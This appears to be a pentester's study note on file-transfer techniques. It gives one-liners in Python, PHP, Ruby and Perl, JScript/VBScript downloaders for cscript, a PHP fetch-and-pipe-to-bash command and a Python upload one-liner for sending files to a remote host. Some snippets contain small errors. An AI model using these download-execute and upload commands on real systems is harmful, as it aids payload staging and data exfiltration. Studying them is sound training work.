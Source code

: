 
- Its common to find different programming languages installed on the machines.
- Programming language such as Python, PHP, Perl and Ruby are commonly available in Linux Distribution. It can also be installed on Windows.
- `cscript` and `mshta` can be used to execute JavaScript or VBScript code on Windows.


- ## Python

	- ### Python 2.7:

		- `python2.7 -c "import urllib;urllib.urlretrieve("URL/file_name", "download_file_name")"`

	- ###  Python3:

		-  `python3 -c "import urllib.request;urllib.request.urlretrieve("URL/file_name", "download_file_name")"`

- ##  PHP

	- PHP is also very prevalent and provides multiple file transfer methods
	- Module use to get the file:
	
		- ==file_get_contents()==+==file_put_contents()==
	
	- ### PHP Download with File_get_contents()
		
		- `php -r '$file = file_get_contents("<URL>"); file_put_contents("<file_name>", $file);'`  
	
	- ###  fopen() alternative to file_get_contents() & file_put_contents() 
		
		-  `php -r 'const BUFFER = 1024; $fremote = fopen("<URL>", "rb")' $flocal = fopen("<file_name>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`
	
	- ### PHP Download a file and Pipe it to Bash:
	
		-  `php -r '$lines @file("<URL>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`

# Other Language

- ### Ruby - Download a File:
	
	- `ruby -e 'require "net/http"; File.write("<file_name>", Net::HTTP.get(URI.parse("<URL>")))'`

- ### Perl - Download a File
	
	-` perl -e 'use LWP::Simple; getstore("<URL>", "file_name");'`
	

# JavaScript

- JavaScript is a scripting or programming language that allows to implement complex features on web pages.

- The following code will work as wget which retrieve file from internet.

	`Code: wget.js`

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

### Download a File Using JavaScript and cscript.exe 

- ###### PowerShell Commands:

	- `cscript.exe /nologo wget.js <URL> <saved_file_name>`

# VBScript

- VBScript ==(Microsoft Visual Basic Scripting Edition)== is an Active Scripting language developed by Microsoft that is modeled on Visual Basic.

- VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

	`Code: wget.vbs`

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

### Download a File Using JavaScript and cscript.exe 

- ###### PowerShell Commands:

	- `cscript.exe /nologo wget.vbs <URL> <file_name>`

# Upload Operations using python3

#### Uploading a File Using a Python One-liner

- `python3 -c 'import requests;requests.post("http://<Ip>:<port>/upload",files={"files":open("<file_path>","rb")})'`

Code: python

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://<IP>:<port>/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("<file_path>","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

This the code that shows how the above command works.

[[File Transfer]]
